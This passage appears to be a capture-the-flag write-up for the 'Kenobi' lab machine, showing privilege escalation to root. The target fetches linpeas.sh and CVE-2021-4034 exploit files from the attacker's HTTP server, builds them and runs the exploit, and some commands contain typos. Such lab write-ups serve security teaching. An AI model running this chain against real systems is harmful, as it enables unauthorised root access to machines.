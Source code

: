 ```
wet http: //10.6.29.149:1111/linpeas.sh
```

Change the file permissions to executable and run the file.

```
chmod +x linpeas.sh
```
```
./linpeas.sh
```

<img src="images/03.Kenobi/19.png" height="700">

We can see that the target machine is vulnerable to CVE-2021-4034.

<img src="images/03.Kenobi/20.png">

Clone the repo into your machine.

```
https://github.com/ryaagard/CVE-2021-4034.git
```

```
cd CVE-2021-4034
```

Start the python server again to server the files.

```
python -m http.server 1111
```

On target machine create a folder and download all the files to the machine.

```
wet http://10.6.29.149:1111/evil.so
```

```
wget http://10.6.29.149:1111/evil-so.c
```

```
wget http://10.6.29.149:1111/exploit.c
```

```
wget http://10.6.29.149:1111/Makefile
```

```
wget http://10.6.29.149:1111/README.md
```

<img src="images/03.Kenobi/21.png" height="700">

Run the make file.

```
make
```

Execute exploit.sh.

```
./exploit.sh
```

<img src="images/03.Kenobi/22.png" height="700">

We got the root shell!!!

